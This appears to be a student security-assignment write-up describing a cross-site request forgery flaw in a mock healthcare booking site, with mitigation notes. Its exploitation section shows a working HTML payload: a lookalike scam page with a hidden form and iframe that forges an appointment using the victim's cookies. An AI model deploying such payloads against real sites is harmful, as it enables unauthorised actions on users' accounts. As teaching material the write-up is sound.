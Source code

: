 #### Abstract

When a web server is constructed to receive a request from a client without any way for verifying that it was submitted intentionally, an attacker may be able to fool a client into sending an unintended request to the web server, which will be viewed as a genuine request.
This can be accomplished by a URL, image load, XMLHttpRequest, or other means, and can result in data exposure or inadvertent code execution.

To prevent CSRF attacks, web developers can implement measures such as using anti-CSRF tokens, rate-limiting requests, and same-site cookie policies.

#### Exploitation

For the purposes of this assignment, we chose to implement a fake, scam site, that would resemble the overall appearance of our real site, enough so that at least some more naïve users would fall for, as seen below:

![](https://media.discordapp.net/attachments/852109272262770710/1070352387778293882/image.png?width=1294&height=661)

In reality, it hides a malicious intent, implemented with the following hidden input, that is submitted when the user clicks the button:

```html
    <form hidden id="hack" target="csrf-frame" action="http://127.0.0.1:5000/appointment" method="POST"
        autocomplete="off">

        <input type="text" class="form-control" name="subject" id="subject" placeholder="Subject"
            value="Pain in the Arse" />Pain in the Arse

        <textarea name="description" class="form-control" id="message" cols="30" rows="4"
            placeholder="Message">HACKED!</textarea>

        <input type="date" class="form-control" name="date" id="date" placeholder="Date" value="2024-12-12" />

        <input type="time" class="form-control" name="time" id="time" placeholder="Time" value="14:12" />
    </form>

    <iframe hidden name="csrf-frame" id="frame" width="1000px" height="1000px"></iframe>
```

It appears to offer free checkups, but in reality, when clicked on, will make use of the user's stored cookies in order to inject a ficticious appointment in their account, as seen on the bottom of this user's appointment list:

![](https://media.discordapp.net/attachments/852109272262770710/1070352493105643530/image.png?width=1004&height=661)

Here's a dramatization of how this vulnerability could be exploited in a real world scenario, the user finds themselves on our scam site and wants their free checkup, so, logically, they click on the button in order to proceed. By doing this, when returning to the real eHealth Corp site, they are confronted with and alert injected by the attacker, alongside a new, ficticious appointment:
